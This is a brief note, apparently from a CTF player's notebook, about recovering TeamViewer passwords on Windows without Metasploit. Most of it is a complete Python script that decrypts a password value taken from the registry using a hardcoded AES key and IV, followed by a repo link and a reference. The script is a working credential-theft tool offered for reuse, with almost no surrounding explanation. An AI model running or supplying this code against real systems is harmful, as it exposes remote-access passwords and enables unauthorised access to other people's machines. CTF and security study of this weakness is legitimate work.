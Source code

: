 # Get Passwords from Teamviewer windows (No Metasploit)

* used this while solving a CTF&#x20;
  * there is a module in metasploit but did not want to use it&#x20;
  * Link to Repo
    * [https://github.com/nathaniel-security/Get-Passwords-from-Teamviewer-windows-No-Metasploit-](https://github.com/nathaniel-security/Get-Passwords-from-Teamviewer-windows-No-Metasploit-)

```
source env/bin/activate
```

```python
import sys, hexdump, binascii

from Crypto.Cipher import AES

  

class AESCipher:

    def __init__(self, key):

        self.key = key

  

    def decrypt(self, iv, data):

        self.cipher = AES.new(self.key, AES.MODE_CBC, iv)

        return self.cipher.decrypt(data)

  

key = binascii.unhexlify("0602000000a400005253413100040000")

iv = binascii.unhexlify("0100010067244F436E6762F25EA8D704")

hex_str_cipher = "FF9B1C73D66BCE31AC413EAE131B464F582F6CE2D1E1F3DA7E8D376B26394E5B"         # output from the registry

  

ciphertext = binascii.unhexlify(hex_str_cipher)

  

raw_un = AESCipher(key).decrypt(iv, ciphertext)

  

print(hexdump.hexdump(raw_un))

  

password = raw_un.decode('utf-16')

print(password)
```

## Reference

* https://whynotsecurity.com/blog/teamviewer/
